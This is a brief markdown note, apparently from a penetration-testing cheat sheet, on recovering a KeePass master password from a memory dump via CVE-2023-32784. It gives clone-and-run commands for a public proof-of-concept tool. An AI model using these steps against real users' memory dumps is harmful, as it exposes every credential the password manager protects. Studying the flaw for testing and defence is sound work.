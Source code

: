 # Keepass Master Password Dumping

## 1) Dump password from memory dump (CVE-2023-32784)

## Github repo: https://github.com/vdohney/keepass-password-dumper

### To effectively use this PoC against a memory dump, we do these steps:

 - git clone https://github.com/vdohney/keepass-password-dumper.git

 - cd keepass-password-dumper

 - dotnet run /path/to/KEEPASSDUMP.dmp (Run the C# project on the dump file to get the master password)
